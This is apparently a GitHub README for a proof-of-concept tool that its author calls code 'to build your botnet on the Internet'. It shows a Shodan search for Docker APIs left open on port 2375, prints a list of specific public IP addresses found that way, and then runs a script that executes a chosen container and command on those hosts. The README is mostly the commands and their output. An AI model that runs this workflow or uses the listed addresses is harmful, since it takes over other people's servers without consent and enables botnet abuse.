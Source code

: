 ### This is the PoC code to build your botnet on the Internet. BE CAREFUL
#### Step1
```bash
jieliau@localhost % export APIKEY='YOUR SHODAN API KEY'
jieliau@localhost % python3 shodanSearch.py port:2375 product:docker
The Open Docker API Hosts have been added into iplist.txt
jieliau@localhost % tail iplist.txt 
182.254.183.89
39.99.159.121
35.158.108.176
120.53.108.171
178.79.136.202
152.7.99.142
185.51.134.15
47.108.200.95
112.124.18.144
50.116.42.167
```
#### Step2
Change the container image and command in dockerExec.py
```bash
jieliau@localhost % python3 dockerExec.py
```
